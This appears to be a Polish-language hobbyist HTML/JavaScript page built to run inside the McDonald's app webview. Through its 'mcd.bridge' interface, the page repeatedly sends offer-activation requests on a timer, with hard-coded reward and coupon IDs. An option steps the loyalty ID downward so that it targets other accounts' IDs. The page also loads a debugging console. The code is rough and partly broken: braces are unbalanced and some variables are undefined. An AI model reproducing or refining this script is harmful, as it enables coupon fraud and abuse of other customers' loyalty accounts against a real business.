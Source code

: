 <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <style>
      * {
        font-family: "Comic Sans MS", "Comic Sans";
      }
    </style>
    <title></title>
    window.mcd
  </head>
  <body>
    <h1>Darmowego bigmaczka?</h1>
    <h2><input type="checkbox" class="catboy" />Lubisz chłopców?</h2>
    <a href="?ddd">ddd</a>
    <a href="?ddd2">ddd2</a>
    <a href="?corn">corn</a>
    <a href="https://ottonik.github.io/">CLICK HERE BOY</a>
    <button class="napierdalacz">
      <img src="https://i.imgur.com/31fA5CM.png" width="100" height="100" />
    </button>
    <button class="napierdalacz-stop">
      <img
        src="https://i.imgur.com/sgQXzaw.png"
        width="100"
        height="100"
        alt=""
      />
    </button>
    <input type="number" class="loyalityId" value="985" />
    <script>
      let coupons = [
        37125,
        53279,
        53705,
        53742,
        53746,
        53748,
        53765,
        53801,
        53802,
        53803,
        53804,
        53805,
        53806,
        53807,
        53808,
        53809,
        53810,
      ];
      let intid = null;
      document.querySelector(".napierdalacz").addEventListener("click", () => {
        if (intid) clearInterval(intid);

        intid = setInterval(() => {
          getPrize(
            mcd.bridge,
            parseInt(document.querySelector(".loyalityId").value)
          );
          if (document.querySelector(".catboy").checked) {
            document.querySelector(".loyalityId").value =
              parseInt(document.querySelector(".loyalityId").value) - 1;
          }
        }, 2500);
      });
      document
        .querySelector(".napierdalacz-stop")
        .addEventListener("click", () => {
          if (intid) clearInterval(intid);
        });
      document.addEventListener("mcdBridgeReady", function (e) {
	    
        console.log(mcd.bridge);
        let offerActivation = mcd.bridge.message("offerActivation");
        let deals = mcd.bridge.message("deals");
        let user = mcd.bridge.message("user");
        user.send({ promptlogin: true });
        user.on("data", function (data) {
                console.log("chuj");
                console.log(JSON.stringify(data));
                console.log(mcd.bridge);
                console.log(data);
                console.log(typeof data);
                console.log(typeof mcd);
                console.log(typeof mcd.bridge);
                console.log("chuj");
          //   getPrize(offerActivation);
          let i = 985;
          let offers = bridge.message("offers") 
          offers.on("data", function (data) {
                console.log("offers data", loyalityId, data);
                console.log(JSON.stringify(data));
        });
        user.on("error", function (error) {});
        user.on("done", function () {});
      });
      function getPrize(bridge, loyalityId) {
        let couponId =
          coupons[Math.floor(Math.random() * coupons.length) + 1 - 1];
        let offerActivation = bridge.message("offerActivation") 
        let offers = bridge.message("offers") 
          offers.send({
            getRedeemedOffers: true
        });
        offerActivation.send({
             loyaltyId: 2400,
              autoActivate: false,
              rewardId: 97983
        });
        offerActivation.on("data", function (data) {
          console.log("offer activation data", loyalityId, data);
        });
        offerActivation.on("error", function (error) {
          console.warn("MCD ERROR", loyalityId, JSON.stringify(error));
        });
        offerActivation.on("done", function () {
          console.log("corn done 11", loyalityId);
        });

        offers.on("data", function (data) {
                console.log("offers data", loyalityId, data);
                console.log(JSON.stringify(data));
        });
        offers.on("error", function (error) {
          console.warn("offers MCD ERROR", loyalityId, JSON.stringify(error));
        });
        offers.on("done", function () {
          console.log("offers done 22", loyalityId);
        });
      }
    </script>
    <script src="//cdn.jsdelivr.net/npm/eruda"></script>
    <script>
      eruda.init();
    </script>
  </body>
</html>
